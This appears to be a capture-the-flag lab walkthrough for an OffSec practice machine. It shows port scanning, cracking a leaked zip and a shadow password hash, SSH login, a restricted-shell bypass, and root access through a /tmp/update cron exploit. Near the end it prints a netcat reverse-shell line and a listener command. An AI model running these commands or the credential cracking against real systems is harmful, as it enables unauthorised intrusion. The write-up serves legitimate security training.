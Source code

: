 
## Nmap scan

```
nmap -sC -sV -p- 192.168.177.85 --open -vv
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 22:51 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:51
Completed NSE at 22:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:51
Completed NSE at 22:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:51
Completed NSE at 22:51, 0.00s elapsed
Initiating Ping Scan at 22:51
Scanning 192.168.177.85 [2 ports]
Completed Ping Scan at 22:51, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:51
Completed Parallel DNS resolution of 1 host. at 22:51, 0.03s elapsed
Initiating Connect Scan at 22:51
Scanning 192.168.177.85 [65535 ports]
Discovered open port 22/tcp on 192.168.177.85
Discovered open port 80/tcp on 192.168.177.85
Connect Scan Timing: About 37.39% done; ETC: 22:53 (0:00:52 remaining)
Stats: 0:00:56 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 91.20% done; ETC: 22:52 (0:00:05 remaining)
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 95.10% done; ETC: 22:52 (0:00:03 remaining)
Stats: 0:01:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.06% done; ETC: 22:52 (0:00:01 remaining)
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 22:52 (0:00:00 remaining)
Completed Connect Scan at 22:52, 64.68s elapsed (65535 total ports)
Initiating Service scan at 22:52
Scanning 2 services on 192.168.177.85
Completed Service scan at 22:52, 6.56s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.177.85.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:52
Completed NSE at 22:53, 5.47s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:53
Completed NSE at 22:53, 0.77s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:53
Completed NSE at 22:53, 0.00s elapsed
Nmap scan report for 192.168.177.85
Host is up, received syn-ack (0.15s latency).
Scanned at 2023-05-18 22:51:48 IST for 78s
Not shown: 53161 closed tcp ports (conn-refused), 12372 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxxReThUimjbPP7ZO1dPbvqSobxafY5J8i9Un5zUH7z9uIZEOHNXzEsq8Vko44IBRv2a7xvuuqtk7yN3XwKdyh8mrt1bV/C7Yx6CZ1q7CiQyYd0QoUqyrp6dGdT6T4fYZ7OwUwyubgqEYdkmiS8qNvlKI2qWdj9hntzzWF9X0F+jbxhLOi6Ovo5DGaSiKxsU/ISjnDsR3geodqeVHbMR+jRq7ucIjRSIOHvp8u9LvrugorZDhdv14yJQj7zfySL1T8WcI8kKUECmZgZTk6iUKYLWZ95oo07kKIs6EeTEGNswUeTjEVebhUFHMep6W1ehU7cE6OREkeZ0Rvuh4EpUTx
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGKuMuZL3YT/QadMNsFaoWvNYLjKK/DlWoz1/15wGhrauU2OMlHQWEc7ChAX+QdIWc1aEN6IAabgvzIzHPnRYV0=
|   256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILNCj4KmJHpZhhE3ZdD/NkVmz1ePM2XW6l0uK3yCT0Og
80/tcp open  http    syn-ack Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:53
Completed NSE at 22:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:53
Completed NSE at 22:53, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:53
Completed NSE at 22:53, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.27 seconds
```


**- HTTP port 80 open**

![Pasted image 20230518225811.png](https://github.com/shyamprasath18/offsec-labs/blob/main/Pasted%20image%2020230518225811.png)

## Cracking zip

```
 zip2john save.zip > hash.txt
ver 2.0 efh 5455 efh 7875 save.zip/etc/passwd PKZIP Encr: TS_chk, cmplen=668, decmplen=1807, crc=B3ACDAFE ts=90AB cs=90ab type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/shadow PKZIP Encr: TS_chk, cmplen=434, decmplen=1111, crc=E11EC139 ts=834F cs=834f type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/group PKZIP Encr: TS_chk, cmplen=460, decmplen=829, crc=A1F81C08 ts=8D07 cs=8d07 type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/sudoers PKZIP Encr: TS_chk, cmplen=368, decmplen=669, crc=FF05389F ts=1535 cs=1535 type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/hosts PKZIP Encr: TS_chk, cmplen=140, decmplen=185, crc=DFB905CD ts=8759 cs=8759 type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** save.zip/etc/hostname PKZIP Encr: TS_chk, cmplen=45, decmplen=33, crc=D9C379A9 ts=8CE8 cs=8ce8 type=0
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

```
john hash.txt               
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
manuel           (save.zip)     
1g 0:00:00:00 DONE 2/3 (2023-05-18 22:57) 8.333g/s 648758p/s 648758c/s 648758C/s 123456..Open
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## zip extracted

```
unzip save.zip
Archive:  save.zip
[save.zip] etc/passwd password: 
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname 
```

- In `etc/passwd` we got 
```
296640a3b825115a47b68fc44501c828:x:1000:1000:,,,:/home/296640a3b825115a47b68fc44501c828:/bin/rbash  
```

- In `etc/shadow` we got
```
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
```

## Cracking the shadow password

```
 john pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
server           (296640a3b825115a47b68fc44501c828)     
1g 0:00:00:02 DONE 2/3 (2023-05-18 23:07) 0.3816g/s 1124p/s 1124c/s 1124C/s rockie..121212
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


## SSH using the credentials 

```
ssh 296640a3b825115a47b68fc44501c828@192.168.177.85

password: server

```

![Pasted image 20230518231412.png](https://github.com/shyamprasath18/offsec-labs/blob/main/Pasted%20image%2020230518231412.png)


## Bypassing Rbash
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

 - resctricted bash

![Pasted image 20230518232145.png](https://github.com/shyamprasath18/offsec-labs/blob/main/Pasted%20image%2020230518232145.png)

## privilage Escalation
https://github.com/DominicBreuker/pspy

- using this for linux process monitoring , found their is a process running after excecuting `honeypot.decoy`.

```
./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------

```

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/5eb45ebf-3f17-43dd-bb3a-9bcd6cacfd13)

- searching out the exploit for that https://www.exploit-db.com/exploits/33899

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/0e140589-abaf-4210-b7ef-53cd44cf6582)

- it run the /tmp/update file , so if we input anything on that it will also get excecute when the AV process running.

- so modifing the update as excecutable with this `echo "/usr/bin/nc -e /bin/sh 192.168.49.52 4444" >/tmp/update`
- listen to the port 4444 on host `nc -lvp 4444`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/2b904ea2-b882-4648-a318-b0cc400c900d)



